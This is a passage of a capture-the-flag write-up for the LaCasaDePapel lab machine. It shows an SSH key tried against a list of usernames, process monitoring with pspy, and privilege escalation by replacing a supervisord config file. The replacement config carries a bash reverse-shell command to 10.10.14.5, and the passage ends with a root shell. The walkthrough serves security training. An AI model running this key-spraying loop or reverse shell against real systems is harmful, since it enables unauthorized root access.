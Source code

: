 With the option parameter and `BatchMode=yes` we can suppress the interactive password to skip every interaction which asks us for the password

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/LaCasaDePapel-10.10.10.131]
└─$ for user in root operator postgres dali berlin professor; do ssh -o BatchMode=yes -i id_rsa $user@10.10.10.131; done
root@10.10.10.131: Permission denied (publickey,password,keyboard-interactive).
operator@10.10.10.131: Permission denied (publickey,password,keyboard-interactive).
postgres@10.10.10.131: Permission denied (publickey,password,keyboard-interactive).
dali@10.10.10.131: Permission denied (publickey,password,keyboard-interactive).
berlin@10.10.10.131: Permission denied (publickey,password,keyboard-interactive).

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ whoami
professor
```

So we just find out that the id_rsa file was the key for the professor user. In the professor home folder we find the following files

```bash
lacasadepapel [~]$ ls -la
total 3060
drwxr-sr-x 4 professor professor    4096 Sep 27 10:48 .
drwxr-xr-x 7 root      root         4096 Feb 16  2019 ..
lrwxrwxrwx 1 root      professor       9 Nov  6  2018 .ash_history -> /dev/null
drwx------ 2 professor professor    4096 Jan 31  2019 .ssh
-rw-r--r-- 1 root      nobody         81 Sep 27 10:48 memcached.ini
-rw-r----- 1 root      nobody        434 Jan 29  2019 memcached.js
drwxr-sr-x 9 root      professor    4096 Oct  3  2022 node_modules
```

If we check the processes we see that the file `memcached.js` is executing and the pid changes, so there are different process executing 

```bash
lacasadepapel [~]$ ps auxww | grep memcached.js
 3568 nobody    0:50 /usr/bin/node /home/professor/memcached.js
lacasadepapel [~]$ ps auxww | grep memcached.js
 3638 nobody    0:28 /usr/bin/node /home/professor/memcached.js
```

With `pspy4` we analyze the behavior and we found that **[supervisord](http://supervisord.org/)** is running. It check the config file, then open the `memcached.ini` and executes the comand specified in the file (executes node in the `memcached.js` file)

```bash
lacasadepapel [/tmp/.d]$ ./pspy64 -f
...[snip]...
2019/07/26 05:26:01 FS:                 OPEN | /etc/supervisord.conf
2019/07/26 05:26:01 FS:               ACCESS | /etc/supervisord.conf
2019/07/26 05:26:01 FS:             OPEN DIR | /home/professor
2019/07/26 05:26:01 FS:             OPEN DIR | /home/professor/
2019/07/26 05:26:01 FS:           ACCESS DIR | /home/professor
2019/07/26 05:26:01 FS:           ACCESS DIR | /home/professor/
2019/07/26 05:26:01 FS:           ACCESS DIR | /home/professor
2019/07/26 05:26:01 FS:           ACCESS DIR | /home/professor/
2019/07/26 05:26:01 FS:    CLOSE_NOWRITE DIR | /home/professor
2019/07/26 05:26:01 FS:    CLOSE_NOWRITE DIR | /home/professor/
2019/07/26 05:26:01 FS:                 OPEN | /home/professor/memcached.ini
2019/07/26 05:26:01 FS:               ACCESS | /home/professor/memcached.ini
2019/07/26 05:26:01 FS:        CLOSE_NOWRITE | /home/professor/memcached.ini 
...[snip]...

lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

We are not owners of the `memcached.ini` file so we cannot modify it, but as we are in the professor home folder and we are logged as professor we can delete it and create another file with the same name with the command we want to execute, in this case a reverse shell

```bash
lacasadepapel [~]$ rm memcached.ini
lacasadepapel [~]$ echo -e "[program:memcached]\ncommand = bash -c 'bash -i >& /dev/tcp/10.10.14.5/1234 0>&1'" > memcached.ini

----------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.131] 60822
bash: cannot set terminal process group (5305): Not a tty
bash: no job control in this shell
bash-4.4# whoami
whoami
root
```

And we are root